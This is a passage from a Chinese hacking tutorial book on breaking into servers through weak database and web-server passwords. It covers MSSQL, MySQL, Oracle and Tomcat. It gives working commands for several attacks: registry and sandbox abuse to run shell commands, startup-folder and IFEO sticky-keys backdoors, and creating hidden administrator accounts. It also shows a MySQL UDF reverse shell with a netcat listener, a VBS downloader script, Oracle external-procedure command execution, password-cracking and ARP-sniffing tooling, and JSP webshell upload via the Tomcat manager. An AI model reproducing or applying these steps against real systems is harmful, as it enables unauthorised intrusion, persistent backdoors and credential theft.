- `SP_OACreate` 或者 `SP_OAMETHOD` 其中之一，或者两者被删除、改名。

如果由于种种原因前面提到的方法都失败了，难道我们就没有办法了吗？答案也是否定的，我们依然有办法。先来了解一下有关沙盒模式的一些内容。为了安全起见，微软在 `jet` 引擎的 `sp8` 中，设置了一个名为 `SandBoxMode` 的开关，这个开关是开启一些特殊函数在另外的执行者中执行的权限的。它的位置在注册表的 `HKEY_LOCAL_MACHINE\SoftWare\Microsoft\Jet\4.0\Engine\SandBoxMode`，默认键值是 2。

微软关于这个键值的介绍如下：

- 0 为在任何所有客户中都禁止启用安全模式；
- 1 为仅在允许的范围之内；
- 2 则是必须在 `access` 的模式下；
- 3 则是完全开启（连 `access` 也不支持）。

简单点说，沙盒模式是一种安全功能，在这种模式下，`access` 只对控件和字段属性中的安全且不含恶意代码的表达式求值。如果表达式不使用可能以某种方式损坏数据的函数或属性，则可以认为它是安全的。

由于默认情况是 2，所以当我们把它改成 0 的时候就开启了沙盒，从而可以执行相关的函数了。在前面的方法都无效的情况下，我们首先先修改注册表，命令如下（开启沙盒的这句命令在 `db_owner` 权限下也是可以调用的）：

```sql
Exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SoftWare\\Microsoft\\Jet\\4.0\\Engines','SandBoxMode','REG_DWORD',0
```

执行成功后会在查询分析器里返回如图56的信息。


图56


图57

执行成功后，再执行以下语句就可执行系统命令了：

```sql
Select * from OpenRowSet('Microsoft.Jet.OLEDB.4.0',';DataBase=c:\\windows\\system32\\ias\\ias.mdb','select shell(''net user tst tst /add'')')
```

执行成功后的返回信息如图5.7。以上命令就是加一个用户名和密码都为 `tst` 的用户。上面语句中的 `c:\windows\system32\ias\ias.mdb` 是使用 WIN2003 系统时的路径，如果目标机器为 WIN2000 系统，则应改为 `c:\winnt\system32\ias\ias.mdb`。

以上命令如果执行失败的话，则有可能是以下原因引起的：

- MSSQL 运行账户被改为 `user` 或者 `power user`，无法修改注册表。
- `xp_regwrite` 扩展过程被删除或者改名。
- `ias.mdb` 文件丢失。

除了以上常见的方法外，针对 MSSQL 还有以下三种方法。当你得到的用户权限为 sa 或者 db 时，在以上方法都失败的情况下，可以试试备份 bat、hta 文件到启动目录。就是先建立一个表，写入命令，然后备份数据库到 `C:\Documents and Settings\All Users\「开始」菜单\程序\启动` 目录，文件后缀名为 bat 或者 hta。这样，当用户登录系统时，将会启动我们备份的 bat 或者 hta 文件。

不过由于 bat 文件对于命令的长度是有限制的，所以备份成 bat 文件执行成功的效率比较低，这里以备份 hta 为例（`db_owner` 默认有系统备份的权限），我们来看以下的操作命令。

### Log备份

```sql
alter database 库名 set RECOVERY FULL;
create table cmd (a image);
backup log 库名 to disk='c:\hia' with init;
insert into cmd(a) values ('要执行的命令');
backup log 库名 to disk='C:\Documents and Settings\All Users\「开始」菜单\程序\启动\hello.hta';
drop table cmd;
```

##### 差异备份

```sql
backup database 库名 to disk='c:\database.bak';
create table cmd (cmd image);
insert into cmd(cmd) values ('你的命令');
backup database 库名 to disk='C:\Documents and Settings\All Users\「开始」菜单\程序\启动\hello.hta' WITH DIFFERENTIAL, FORMAT;
drop table cmd;
```

这里有一点经验之谈，就是把你要执行的命令转换成十六进制，也就是要转码，这样成功率会高一些。如果这个方法失败的话，有可能是以下原因引起的：

- 对数据库没有备份的权限。
- 对目录无写入的权限。
- 建表失败、备份失败等其它原因。

这一招的缺点就是比较被动，要等到系统重启后管理员登录时才能执行到我们的代码，而且成功率也不太乐观，总会遇到一些问题。除此之外，还有一种提权方法，就是利用 sqlserveragent 服务。由于 sqlserveragent 服务默认是关闭的，需要利用 `xp_servicecontrol` 来启动。

启动 sqlserveragent 服务的命令如下：

```sql
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT'
```

如果启动成功，则会显示如图5.8的信息。接下来我们利用如下语句执行系统命令，执行成功后如图5.9。

```sql
USE msdb
EXEC sp_add_job @job_name='GetSystemOnSQL',
  @enabled=1,
  @description='This will give a low privileged user access to xp_cmdshell',
  @delete_level=1
```


```sql
EXEC sp_add_jobstep @job_name = 'GetSystemOnSQL',
    @step_name = N'Exec my sql',
    @subsystem = 'TSQL',
    @command = 'exec master..xp_execresultset N''select ''''''exec master..xp_cmdshell ''''''dir > c:\result.txt'''''''''''''',N''''Master''''';';
EXEC sp_add_jobserver @job_name = 'GetSystemOnSQL',
    @server_name = 'test-ejk6epvx9p';
EXEC sp_start_job @job_name = 'GetSystemOnSQL';
```


注意下这段代码中的“`@server_name = 'test-ejk6epvx9p'`”，这里的“`@server_name`”如何获取呢？一些人用语句“`select host_name()`”，其实得到的不是真实的机器名，这里我们用“`select name from master..syslogins`”得到数据库用户名，如图60。

这种方法比较鸡肋，现今开启 `sqlserveragent` 服务的机器已经比较少了，而且要开启这个服务的话又要 `sa` 权限，命令语句又繁多，容易产生书写上的错误。

当然，也有执行命令失败的时候，原因一般为以下两点：

- `xp_servicecontrol` 被删除或者改名；
- MSSQL 运行账户被改为 `user` 或者 `power user`，这个权限可以执行部分系统命令，但无法使用超越本身权限的命令，如 `net user nohack /add`。

好了，最后我们来看一下操作注册表提权的方法。直接操作注册表其实只需要 `db_owner` 以上的权限就可以了，但是 `db` 权限下不能写注册表，要 `sa` 权限下才能对注册表进行写入。

操作注册表提权主要有两种思路，一种就是利用注册表的启动项，我们执行如下代码：

```sql
exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE',
'Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run','running',
'REG_SZ','c:\windows\system32\cmd.exe /c net user lst lst /add'
```

这样，只要等待服务器重启就会运行我们的代码，从而添加一个用户名和密码都为 `lst` 的用户。既然能操作注册表了，我们可以用映像劫持之类的技术来达到不需要重启就可以直接占领 3389 的目的。

首先来了解一下映像劫持技术：映像劫持（IFEO）就是 `image file execution options`，它位于注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options`。最关键的是，这个键值下有一个 `Debugger` 参数，直译为“调试器”，它是 IFEO 里第一个被处理的参数，其作用如下：

> 系统如果发现某个程序文件在 IFEO 列表中，它就会首先读取 `Debugger` 参数。如果该参数不为空，系统则会把 `Debugger` 参数里指定的程序文件名作为用户试图启动的程序执行请求来处理。

微软是想通过 `Debugger` 参数让程序员能够通过双击程序文件直接进入调试器里调试自己的程序，可如果我们把这里的程序换成其它的，如 `cmd.exe`，就可以达到使用系统命令的效果了。请看如下代码：

```sql
exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE',
'SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe',
'debugger','REG_SZ','c:\windows\explorer.exe'
```

其中的 `c:\windows\explorer.exe` 就是我们平常看到的桌面程序；当我们进入目标服务器的 3389 后，直接按五次 Shift 键就会出现服务器的桌面了。虽然这个时候我们没有登录账号，但还是可以使用任何程序，只不过一段时间后连接会断掉，如图61。到了这一步我们应该做的就是尽快加一个系统账户。


图61

呵呵，不知不觉，关于 MSSQL 提权的方法就讲了这么多，而且这只是基于 sa 权限下，且基于查询分析器下执行的命令。当然，在后面的章节中碰到的注射问题，通过注入点也是可以执行的，不过需要变化一下而已。而且基于 db 权限的提权也还有好多技巧没有提到，就算是 sa 账户，有时候也会碰见这样或那样的问题，我们在后面的章节遇到了再详细地解决。

除此之外，public 提权方面的相关知识也没有涉及到，这个在后面遇到了会给大家讲解到。总之，大家的思路要灵活，比如那个映像劫持，本身是病毒经常用的招数，可对于黑客来说，这也是一个比较不错的思路。渗透中的思路通常很重要，大家要记住这一点。

## 2.5.3 基于MySQL弱口令的入侵

MySQL 是一个小型关系型数据库管理系统，开发者为瑞典 MySQL AB 公司，已在 2008 年 1 月 16 号被 Sun 公司收购。目前 MySQL 被广泛地应用在 Internet 上的中小型网站中，由于其体积小、速度快、总体拥有成本低，尤其是开放源码这一特点，被许多用户所喜爱。与其它的大型数据库，例如 Oracle、DB2、SQL Server 等相比，MySQL 自有它的不足之处，如规模小、功能有限（MySQL Cluster 的功能和效率都相对比较差）等，但这丝毫也没有减少它受欢迎的程度。对于一般的个人使用者和中小型企业来说，MySQL 提供的功能已经绰绰有余。

目前 Internet 上流行的网站构架方式是 **LAMP（Linux+Apache+MySQL+PHP）**，即使用 Linux 作为操作系统，Apache 作为 Web 服务器，MySQL 作为数据库，PHP 作为服务器端脚本解释器。由于这四个软件都是遵循 GPL 的开放源码软件，因此使用这种方式不用花一分钱就可以建立起一个稳定、免费的网站系统。

虽然这是一套很流行的配置，不过要是 Apache 服务器运行在 Windows 服务器上，并且管理员也没有做一些相关的安全配置，那么这一台 Windows 服务器很有可能沦为肉鸡。

MySQL 发展至今，在牛人们的挖掘下已经出现了不少提权的方法，而最为流行并且有效的莫过于 mix.dll 提权和 udf.dll 提权了。这里有一点需要为大家说明的是，在配置好 MySQL 后，3306 端口是不对外开放的，但是在一些情况下，例如要从别处连接 MySQL 数据库的时候就需要开放外连端口。

当不允许外连的时候，客户端连上去会发现出现如下提示：

```text
xxx.xxx.xxx.xxx is not allowed to connect to this mysql server
```

对此，我们可以在服务端进入 MySQL，通过如下命令进入 MySQL 的命令行：

```sql
Mysql -h 127.0.0.1 -u root -p
```

回车后接着输入 MySQL 设置的密码，如图62。


图62

现在我们要为 IP 是 192.168.1.203 的机器开放连接到本机 MySQL 的权限，命令如下：

```sql
grant select,update,insert,delete on *.* to root@192.168.1.203 identified by 'test';
```

其中 root 为要给予开放的用户，192.168.1.203 为允许连接的机器 IP，test 为 root 用户的密码，执行成功后返回信息如图63。


图63

这样我们就可以在 192.168.1.203 的机器上用 mysql.exe 连接到本机的 MySQL 数据库了。很显然，管理员这样做并不安全，因为 root 账户的密码过于简单。现在我们来看一下攻击者通过弱口令是如何操纵对方机器的。

现行的 mix.dll 和 udf.dll 提权其实都是基于向 MySQL 导出文件，然后建立函数后执行代码。我们来先看看 mix.dll 提权。

装有 MySQL 服务的机器 IP 为 192.168.1.121，本机 IP 为 192.168.1.203。首先用 mysql.exe 连到 192.168.1.121 的机器上，然后导出 mix.txt，命令如下：`\. C:\mix.txt`。其中 `c:\mix.txt` 为 mix.txt 实际所在的路径名，成功后返回信息如图64。


图64


图65

这个时候再使用命令 `select Mixconnect('192.168.1.203','888');` 反弹一个 shell，然后在本机用 nc 监听 888 这个端口，命令为：`nc -vv -l -p 888`。执行后出现错误，如图65。

从提示的信息来看，说明 `mysql.Mixconnectp` 这个存储过程没有建立。可是刚才导入的明明就是建立存储过程的函数啊？一些没有经验的攻击者在碰到这种情况后就会不知所措，其实不然，我们打开 mix.txt 文件，看到最后有下面几条语句：

```sql
GRANT ALL PRIVILEGES ON *.* TO 'avyh'@'%' IDENTIFIED BY 'tamade' WITH GRANT OPTION;
use mysql;
update user set password='2733889a1030432b' where host='%' and user='root';
FLUSH PRIVILEGES;
create table yaiy(data LONGBLOB);
```

```sql
insert into yaiy values('');
update yaiy set data = @a;
select data from yaiy into DUMPFILE 'c:\\Program Files\\yaiy.dll';
drop table yaiy;
create table iget (data TEXT);
insert into iget values('iLocal = LCase(WScript.Arguments(1))');
insert into iget values('iRemote = LCase(WScript.Arguments(0))');
insert into iget values('Set xPost = CreateObject("Microsoft.XMLHTTP")');
insert into iget values('xPost.Open "GET", iRemote,0');
insert into iget values('xPost.Send()');
insert into iget values('Set sGet = CreateObject("ADODB.Stream")');
insert into iget values('sGet.Mode = 3');
insert into iget values('sGet.Type = 1');
insert into iget values('sGet.Open()');
insert into iget values('sGet.Write(xPost.responseBody)');
insert into iget values('sGet.SaveToFile iLocal,2');
select data from iget into outfile 'C:\\Program Files\\iget.vbe';
drop table iget;
CREATE FUNCTION Mixconnect RETURNS STRING SONAME 'c:\\Program Files\\yaiy.dll';
```

这里的代码是针对 MySQL 4.0 以下版本的，如果 MySQL 的版本在 5.0 以上的话（大家仔细看图62就会发现 MySQL 的版本信息了），我们要把如下语句进行修改：

```sql
select data from yaiy into DUMPFILE 'c:\\Program Files\\yaiy.dll';
CREATE FUNCTION Mixconnect RETURNS STRING SONAME 'c:\\Program Files\\yaiy.dll';
```

把以上代码做一下改动，修改后的代码如下：

```sql
select data from yaiy into DUMPFILE 'c:\\windows\\system32\\yaiy.dll';
CREATE FUNCTION Mixconnect RETURNS STRING SONAME 'c:\\windows\\system32\\yaiy.dll';
```

好了，我们还是重复前面的命令执行操作，返回信息如图66，还是错误！


我们回头想一想，导出的文件这回位置是正确了，存储过程依然没有建立的话，我们来手工建立一下。输入如下语句，执行后结果如图67。

```sql
Create function Mixconnect returns string soname 'yaiy.dll';
```


这里提醒一下，Mixconnect 要注意大小写，最后的 yaiy.dll 是根据 mix.txt 里 c:\\Program Files\\yaiy.dll 的名字来设置的。

接着再次重复前面执行失败的命令，成功啦！现在本地监听的端口上有反应了，然后就像在本机 cmd 模式里一样可以执行我们想要的命令了。令人遗憾的是，用 mix.dll 提权经常会导致服务器的 mysql.exe 出现假死状态，这样给我们的连接带来了一些意想不到的情况。不过，udf.dll 的提权就不会产生这样的情况，让我们来实战一下 udf.dll 提权。

当扫描到一个弱口令后登录上去，首先利用命令：“select * from mysql.user;”来确保这台机器是不是有读文件的权限。如果没有，那我们只有放弃了。不过运气似乎很好，我们看到执行后返回的信息如图68。看来是有权限了，我们把 udf.txt 导入，如图69。


图68


图69


图70

没有什么错误返回，好了，接着来执行一下命令试试。首先还是要建立存储过程，命令为：`create function cmdshell returns string soname 'udf.dll';`，返回信息如图70。

出现这种情况有两个原因，其一就是因为生成的 udf.dll 被当成木马被服务器上的杀毒软件给查杀了；其二就是文件代码的最后几句如下：

```sql
use mysql;
create table sql(data LONGBLOB);
insert into sql values('');
update sql set data='@a';
select data from sql into DUMPFILE 'c:\\windows\\system32\\udf.dll';
drop table sql;
```

也就是说如果服务器为 Windows 2000 的话，这个路径就是错误的。我们可以依据情况修改一下，变成：

```sql
select data from sql into DUMPFILE 'c:\\winnt\\system32\\udf.dll';
```

再传一下，结果还是一样，于是作罢。因为我本身没有免杀的 udf.txt，但这并不代表其他的人没有。现在只好在本地做一下测试了，由于在本地测试的时候，把上面的语句写成了 `create function cmdshell2 returns string soname 'udf.dll';`，故执行命令的时候也应该相应地变换一下，如图71。


图71

这个是直接在命令行下执行命令，而不需要我们在本地监听端口，不分 mysql.exe 的版本，也不会出现 mysql.exe 假死的可能。因此，udf.dll 提权相对于 mix.dll 的成功率要高些。

总结一下，Windows 下的 root 账户权限一般都比较高，*nix 下权限就没有这么高了。当然，这些权限也是可以由管理员设置的，而且上面所讲都是基于命令行下的操作。

其实我们拿到 webshell 后也可以在 webshell 里操作，而且步骤更简单。在命令行下操作虽然比较麻烦，不过方法比较重要，大家要仔细实验一下。

#### 2.5.4 基于 Oracle 弱口令的入侵

Oracle 公司是全球最大的信息管理软件及服务供应商，成立于1977年，总部位于美国加州 Redwood Shore。目前，全球多个电子商务网站、90%以上的上市 .COM 公司及大约70家“财富全球100强”企业均不约而同地采用 Oracle 电子商务解决方案。正因为 Oracle 的强大复杂，使得许多人平常并没有多大机会去接触这种类型的数据库。并且使用这种数据库的一般为大型商业网站，如银行、大企业之类，其庞大的体积和繁多的存储过程也让一些想学习的人望而却步。不过，正因为其太强大了，所以一旦出现配置不当的问题，后果也是比较严重的。

在 Oracle 数据库安装过程中的两个具有 DBA（即数据库管理员）权限的用户 Sys 和 System，其默认密码为 manager。正因为如此，很多管理员忽视了这一点，没有更改默认密码，这样就为攻击者留下了可乘之机。下面就引用我的好友 mickey 的两篇文章来为大家说明一下攻击者如何通过 Oracle 来入侵。

> 《一次通过 oracle8i 入侵系统之旅》

最近看了些有关 Oracle 的安全资料，随后做了一个渗透测试，接着把过程记录下来方便日后查阅，这里也拿出来和大家分享了。先用 SuperScan 4.0 扫描下要测试的主机，结果如图72。


图72

端口1521是 Oracle 的 TNS Listener 默认监听端口，通过扫描报告还可以看到 Oracle 的版本为 8i。现在还不知道对方的操作系统版本，看到主机还开放了终端服务，直接连上去看下操作系统版本，如图73。确定操作系统版本为 Windows Server 2003 企业版。


图73


图74

图75

Oracle 10g 之前的版本，默认情况下是允许远程管理 TNS Listener 的，这台主机的 Oracle 版本为 8i，我们通过 TNS Listener 来收集下更多的详细信息。如果本地安装了 Oracle，可以直接调用 Lsnrctl 连接到测试的主机，如图74。

通过输入“status”命令我们可以得到 Oracle 详细版本（8.1.7.0.0）、操作系统（Windows）、跟踪级别为 OFF（说明没有开启审核）、安全性为 OFF（说明没有设置 Listener 口令）、日志文件的绝对路径（判断 Oracle 安装路径）、数据库的 SID（ccdr）等。

要远程管理 Oracle，需要知道 IP、数据库的 SID 和连接的用户名和密码。IP 和 SID 我们已经知道了，接下来用 oscanner 工具扫描下要测试的主机是否存在默认密码，如图75。

看来管理员安装完 Oracle 8i 后就没有进行进一步的安全配置了，所有的用户名密码都是默认的。在 Oracle 中，SYS/SYSTEM 都是具有 DBA 权限的账户，我这里选择使用 SYSTEM/MANAGER 来连接数据库。

在本地用 Sqlplus 连接到目标 Oracle 数据库，命令为：“SqlPlus system/manager@//victimip:1521/ccdr”，连接成功后可以通过 PL/SQL 来运行 OS 命令。首先需要创建库来定位 msvcrt.dll 文件，这里需要使用完整的路径。通过刚才对主机的检查，我们已经知道操作系统为 Win2003，如果系统安装到 C 盘的话，那 msvcrt.dll 默认路径就为 c:\windows\system32\msvcrt.dll，创建库的命令如下：

```sql
CREATE OR REPLACE LIBRARY exec_shell AS 'c:\windows\system32\msvcrt.dll';
```

接着写一个过程来调用 msvcrt.dll 里的 system() 函数，命令如下：

```sql
CREATE OR REPLACE PACKAGE oracmd IS
  PROCEDURE exec(cmdstring IN CHAR);
END oracmd;
/
CREATE OR REPLACE PACKAGE BODY oracmd IS
  PROCEDURE exec(cmdstring IN CHAR)
  IS EXTERNAL
    NAME 'system'
    LIBRARY exec_shell
    LANGUAGE C;
END oracmd;
/
```

创建完后就可以运行 OS 命令了，由于主机已经开放了终端服务，所以我这里添加个管理员，然后连接服务器，命令如下：

```sql
exec oracmd.exec('net user mickey imissyou /add');
exec oracmd.exec('net localgroup administrators mickey /add');
```

账户创建完成后如图76，这样就可以连接终端服务了，一台肉鸡到手！


通过阅读这篇文章，我们知道第一个突破口便是利用 oscanner.exe 扫描到有弱口令的用户名和密码，其次是查看知道了 Oracle 的版本过低（8i），在高版本的 Oracle 中是不允许 Lsnrctl 在 public 权限下连接的。好了，我们再看一篇好友 mickey 写的关于如何破解 Oracle 密码的文章吧。

## 《Crack oracle password》

要连接远程的 Oracle 数据库，需要知道 SID、用户名、密码，当然还有最重要的 IP 地址。SID 如果被管理员修改的话，可以利用 sidguess 来进行破解，速度非常地快，至于成功与否，就要看你的字典配置了，破解效果如图77。


Oracle 不同的版本有大量的默认账户密码，可是有些情况下，Oracle 数据库管理员把默认的密码给修改了，这时我们就要选择暴力破解了。如果账户破解成功，登录上去后是 DBA 权限的话就太棒了！如果不是，也可以利用 Oracle 的一些漏洞进行提权。

进入数据库后，我一般选择的是抓取其他用户的密码哈希值，然后本地 Rainbow 破解。如果同网段还有其他的 Oracle 数据库，可以抓包等待其他用户的 Oracle 登录验证，取出敏感信息，然后破解，进一步扩大战果。下面我就分别讲讲这三种破解方法及相关工具的使用。

## 小知识！有关 Oracle 密码的基础知识

- 1. 标准的 Oracle 密码可以由英文字母、数字、井号（#）、下划线（_）、美元字符（$）构成，密码的最大长度为30个字符。Oracle 密码不能以 `$`、`#`、`_` 或任何数字开头，密码不能包含像 `SELECT`、`DELETE`、`CREATE` 这类的 Oracle/SQL 关键字。
- 2. Oracle 的弱算法加密机制：两个相同的用户名和密码在两个不同的 Oracle 数据库机器中，将具有相同的哈希值，这些哈希值存储在 SYS.USER$ 表中，可以透过像 DBA_USERS 这类的视图来访问。
- 3. Oracle 默认配置下，每个账户如果有10次的失败登录，此账户将会被锁定。但是 SYS 账户在 Oracle 数据库中具有最高权限，能做任何事情，包括启动/关闭 Oracle 数据库。即使 SYS 被锁定，也依然能够访问数据库。

##### 一、远程暴力破解

由前面的基础知识3可以得知，选择远程破解 Oracle 的最好账户是 SYS，因为此账户永远有效。Oracle 10G 以前的版本在安装的时候并没有提示修改 SYS 的默认密码，而且 Oracle 10G 虽然提示修改密码，但是并没有检查密码的复杂性，如图78。


图78

这样我们就可以使用 Orabrute 工具来进行远程破解。在使用这个工具的时候，需要系统提前安装好 Sqlplus，该工具的原理很简单，就是不停地调用 Sqlplus，然后进行登录验证。账户选择的是 SYS，密码则为 password.txt 中的密码单词，只要登录成功，就会调用 `selectpassword.sql` 脚本抓取出在 `SYS.USER$` 表中的其他用户的哈希值，然后退出程序。

这里有个注意的地方，当第二次运行 Orabrute 的时候，需要删除或移动同目录下的前一次运行 Orabrute 时生成的 `thepasswordsarehere.txt` 和 `output.txt` 文件。

Orabrute 的使用格式为：`orabrute <hostip> <port> <sid> <millitimewait>`，在配置好有效参数后执行结果如图79、图80。


图79

Orabrute 的破解速度比较慢，我们可以采取变通的方法来破解。如果 Oracle 的数据库版本为 Oracle 10G，默认自带个通过 8080 端口来远程管理数据库的 WEB 接口，如图81。


当我们访问 `http://ip:8080/oradb/public/global_name` 时，会弹出认证信息，这种 HTTP 的基本验证有好多的工具都可以快速破解，比如著名的 Hydra。我这里选择的是图形界面的 wwwhack，设置好用户名为 SYS，然后选择字典就可以破解了，速度要比通过 Orabrute 来破解快许多，如图82。


##### 二、以 DBA 权限登录后的破解

当得到一个远程登录账号后，可以使用 Checkpwd 来验证数据库中所有的缺省用户的默认密码。Checkpwd 是采用远程破解的，速度比较慢，不过能清晰地看出每个账户的状态（过期、锁定），其使用格式为：`checkpwdusername/password@//ip:port/sidpasswordfile`，配合参数后的执行效果如图83。


我们也可以使用 Sqlplus 直接登录到 Oracle 数据库，然后使用 `select username,password from dba_users` 命令查看数据库中的用户名和密码，接着本地用 Cain 来破解，如图84。


图84

本地破解速度是非常快的，我推荐先选择字典破解。在 Cain 中点选“Cracker”标签页，然后右键点击先前导入好的用户名和哈希值，选择“Dictionary Attack”选项就可以开始字典破解了，效果如图85、图86。


图85 图86

字典攻击无效果的时候，可以采用 Rainbow 破解。Cain 自带了 Rainbow 表生成器，打开 Winrtgen，点选“AddTable”，在“Hash”栏中选择“Oracle”；“Min Len”、“Max Len”分别表示最小密码长度和最大密码长度；在“Charset”选择密码中的字符集，然后点“Ok”按钮就能开始生成 Rainbow 表了，如图87。

生成表所用的时间要看你的 CPU 和你刚才的 Rainbow 配置了，这会占用大量的硬盘空间和 CPU 资源，不过好处是一次生成可以多次使用，效率也不错。

##### 三、同交换机/集线器下的其他 Oracle 数据库破解

THC 组织新发布了一款叫 Orakel 的工具，该工具可以分析、破解 Oracle 数据库脆弱的远程认证机制。经我测试，该工具仿佛只对 Oracle 8i 的远程登录认证有效，不过随软件附带的文档提供了一种攻击方法。

我们知道集线器（HUB）是在同一个冲突域和广播域中的，可以直接使用 Ethereal 这类的抓包工具抓取其他端口的用户连接 Oracle8i 数据库的认证信息。我测试的时候选择的是 Ethereal 抓包工具，因为该工具有个非常好的功能“Follow TCP Stream”，可以利用这个功能快速地找出认证包中的 AUTH_SESSKEY、AUTH_PASSWORD、连接用户名的值，然后把相关的值填入 OrakelSniffer 工具中，就可以破解了。OrakelSniffer 工具支持字典破解和暴力破解，破解速度非常快，效果如图88、图89。


如果是在交换机的环境下（SWITCH），每个端口都是一个冲突域，我们无法直接捕捉到其他端口的信息，但可以利用 ARP 欺骗技术或配置交换机的端口分析功能（SPAN），让其他端口的数据包流量流经本地。实际应用中，最常用的还是 ARP 欺骗技术，然后使用 Ethereal 抓取认证过程，破解的方法是一样的。

##### 四、防护

由基础知识1得知，默认情况下设置标准的 Oracle 密码是很不复杂的，但可以使用双引号来突破 Oracle 的设置密码限制，比如通过使用双引号能够添加一些额外的字符，如：%^@$*()_+"'_=[]|\:;',<>

在 Oracle 中添加并赋予用户 DBA 权限的命令如下，效果如图90。

```sql
SQL> create user minnie identified by "!Q@$*(L)+~";
SQL> grant dba to minnie;
```


图90

通过设置如此复杂的密码，可以在一定程度上防止密码的破解。

以上两篇文章为我们接触 Oracle 方面的知识打开了大门。不过这也是一些基础的东西，你要真正成为一个 Oracle 方面的高手，就得像学习 MSSQL 等其他数据库语言一样，很下功夫才行，必须了解如内置的存储过程和一些封装包的安全性等。

Oracle 一路发展至今，安全性已经提高了不少，我们将在以后的章节中展示如何在数据库为 Oracle 的情况下拿到数据库权限或者进行渗透，这一小节就先到这里了。

## 2.5.6 Tomcat 弱口令的入侵

Tomcat 服务器是一个免费的、开放源代码的 Web 应用服务器，和我们平常见到的 Apache 和 IIS 一样，都可以提供 Web 服务。它是 Apache 软件基金会（Apache Software Foundation）的 Jakarta 项目中的一个核心项目，由 Apache、Sun 和其他一些公司及个人共同开发而成。由于有了 Sun 的参与和支持，最新的 Servlet 和 JSP 规范总是能在 Tomcat 中得到体现，Tomcat 5 支持最新的 Servlet 2.4 和 JSP 2.0 规范。Tomcat 技术先进、性能稳定，而且免费，因而深受 Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的 Web 应用服务器。

Tomcat 很受广大程序员的喜欢，因为它运行时占用的系统资源小，扩展性好，支持负载平衡与邮件服务等开发应用系统常用的功能，而且它还在不断改进和完善中，任何一个感兴趣的程序员都可以更改它或在其中加入新的功能。

由于 Tomcat 安装的时候默认是以 system 权限启动的，类似于 Apache 服务一样，而且 Tomcat 解析的是 jsp 后缀的文件，因此当管理员配置不当时，极易引起攻击者的攻击。Tomcat 默认的后台管理端口是 8080（这个是可以更改的），进入 Tomcat 后台后，有两个地方可以利用，因为有两个目录可以访问，它们是：`/admin` 和 `/manager/html`。

`/admin` 目录下的利用方法为：依次选择 Service--host---actions---Create New Context 建立虚拟目录，Document Base 填你想浏览的目录，比如 `c:\`，Path 自己随便写，例如 `/test`，然后直接在浏览器中输入 `http://ip/test` 进行访问就可以看到 C 盘内容了。

`/manager/html` 目录下的利用方法为：直接上传一个包含 jsp 木马的 war 文件就可以得到一个 shell 了。这里要提醒大家，不能直接上传 jsp 木马，其他文件也一样。如果要上传 `nc.exe`，把 `nc.exe` 放到 war 文件里就可以了。

以上传上去了。一般情况下得到的 jsp shell 都可以执行系统命令。

好了，我们来实际测试一下。扫描这种弱口令的工具 Apache Tomcat Crack 是一位大牛写的，我们直接用就可以了。在“start ip”和“end ip”里面分别填上扫描的范围，然后点击“add”，接着点击“start”就开始扫描了，如图91。


图91

图92

不过，这个工具在 XP 系统上运行不太稳定，经常会处于假死状态，但是在 Windows 2003 系统下却很正常，大家按照系统来选择使用吧。如果你扫描的范围比较大，需要等待相当长的一段时间。

当你在“results”栏中看见有结果显示时就可以进行下一步的操作了，我们先打开相应的 URL，比如 `http://x.x.183.8:8080/manager/html`，回车后会弹出一个权限验证框，如图92。

前面我们已经扫描到了用户名和密码，直接输入后点“确定”便会来到如图93的界面。


图93

在这个页面的下方，有一个上传的地方，如图94。


图94

记得一定要上传 war 格式的文件，里面包含你的 jsp 木马。war 就像 rar（一种压缩格式）文件一样，如果你想传其他的文件，可以先把 war 格式的文件改成 rar 格式，然后再向里面添加你的文件，上传的时候再改回 war 格式即可。

这里我上传的是 `job.war`，里面添加了个 `s.jsp` 文件。先打开 URL：`http://x.x.183.8:8080/job/`，发现出现如图95的提示。


不要紧，在 `job` 路径后面加一个 `s.jsp`（`s.jsp` 就是 `job.war` 里面包含的 jsp 脚本木马了），问题依旧，如图96。

看到这里大家是不是认为没戏了？其实不然，因为不可预知的因素太多了，我们不能就这样放弃。回到 `/manager/html`，发现有一行提示：`FAIL - War file "job.war" already exists on server`，如图97。

从这条信息我们可以知道 `job.war` 已经存在，表示上传成功了。那我们改一个名字再传上去，比如 `job11.war`，然后再访问这样的 URL：`http://x.x.183.8:8080/job11/s.jsp`，如图98，这回正常了，顺利得到 shell。


得到 shell 后就可以干许多事情了，因为 jsp 程序一般都是配以 system 权限的，因此权限很大，如图99。看到当前用户名没有，是 system 哦！呵呵，也就是最高权限了。如果服务器恰好又开了 3389，那么加一个用户上去是很简单的事情，这里就不多说了。下面，我们来看看 admin 目录下的利用。

Admin 目录的登录界面和 `manager/html` 目录的不太一样，如图100。


进去后一定要看仔细了，好多人对 admin 这个目录不太会利用。在左边侧框栏中可以看到“Tomcat Server–Service”，如图101。

Service 树杈旁边有一个类似于放大镜的图标，接着树杈下面出现了一个 host 的树杈，这个树杈展开不展开无所谓。点击一下这个“host”，在右边就出现了如图102的画面。

右边显示的内容中有一个明显的“host actions”下拉选项，我们选择“create new context”，在出现的画面中，“document base”一栏填入你想要浏览的内容，如“c:/”，表示想浏览 C 盘根目录的内容；在“path”一栏随便填写，如“/test”，接着点击右下角的“save”按钮进行保存，如图103。

现在就可以打开 URL：`http://x.x.195.6:8080/test` 进行访问，看看里面都有什么，是不是 C 盘根目录的内容，如图104。

怎么样？C 盘根目录的内容一览无余了吧。当我们不能上传时，可以利用 admin 目录下的这个特性，非常有用哦。


总结一下，类似于这样的撒网式攻击只能说对那些在管理安全上意识薄弱的人上了一课，我们重要的是知道，设置一个强壮的口令是很有必要的。Tomcat 实在太强大了，强大得令人难以置信，配置不合理就会成为一个后门，一不小心就会被黑客们所利用。

## 2.5.7 第三方管理工具 radmin 和 VNC 弱口令入侵

